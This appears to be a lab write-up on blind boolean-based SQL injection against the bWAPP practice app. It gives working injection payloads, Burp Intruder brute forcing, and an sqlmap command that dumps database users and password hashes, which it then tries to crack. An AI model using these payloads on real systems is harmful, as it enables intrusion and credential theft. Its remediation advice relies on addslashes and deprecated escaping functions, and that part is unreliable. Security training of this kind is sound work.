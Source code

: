 # 1. Low

![SQL_B-B_L0.png](image/SQL_B-B_L0.png)

When inputting Single quote (`'`), the server response with `Incorrect syntax detected!`. Using comment character to make statement correct, I used `'#` and the response was `The movie does not exist in our database!` which mean the query statement correct. Go on BurpSuite and repeat the request.
Using OR statement if return True so that the Backend will returned `The movie exists in our database!`. I'm using this payload: `'OR+1=0%23`, or you can also use AND statement `iron man'AND+1=1%23`.
![SQL_B-B_L1.png](image/SQL_B-B_L1.png)

If the statements return False that it will returned `The movie does not exist in our database!`.

![SQL_B-B_L2.png](image/SQL_B-B_L2.png)

Following up, we can determine the length of data we want to find, then compare each character to find out the exact data we need. For an example, I will determine the length of SQL Version using following payload: `'+or+length(version())=23%23`. In below picture, I used BurpSuite's Intruder to find the length depend on `The movie exists in our database!`

![SQL_B-B_L3.png](image/SQL_B-B_L3.png)

To explore more, you can using SQLMap, or can also build script and make it automation brute forcing

---
# 2. Medium

In the Medium level, the special character has beed added by `addslashes()` function which make from the raw string (E.g: `Is your name O'Reilly?`) to the modified string (E.g: `Is your name O\'Reilly?`). So I could not bypass it.

---
# 3. Script Supported
In this case, SQL Injection Techniques has already have [SQLMap](https://sqlmap.org/) which is a powered tool develop in python so that I should not write a script because of not better than [SQLMap](https://sqlmap.org/) 😁
- `sqlmap.py -u http://bee.bug:80/bWAPP/sqli_2.php?movie=1%27&action=go --hostname --tables --users --dbs --passwords --columns --cookie=PHPSESSID=c77d6e1e60e432177d833db76d92d0a9;security_level=0`

![SQL_G-S-SS0.png](image/SQL_G-S-SS0.png)

We known the credentials in hashes:
```shell
[*] debian-sys-maint [1]:
    password hash: *D4749CBC6F877E93F4A942F787C272224CC91D4A
[*] root [1]:
    password hash: *07BDCCE30E93A12AA2B693FD99990F044614A3E5
```
Trying to use [Crackstation](https://crackstation.net/) to see if we can have cleartext?

![SQL_G-S-SS1.png](image/SQL_G-S-SS1.png)

And finally, all reports that output in following path: 
- Environment variable path: `%LocalAppData%\sqlmap\output\<host_name_scanned>`
- Shell folder: `shell:Local AppData\sqlmap\output\<host_name_scanned>`

---
# 4. Remediation

- Validating User Input and only accept word or number only, example given using regular expression: `\w+` or `[a-zA-Z0-9 .-_]+`
- Using function to filter input: 
	- `$value = mysql_real_escape_string($data);`
	- `$value = addslashes($data);`
- Using [sanitize filter php](https://www.php.net/manual/en/filter.filters.sanitize.php)
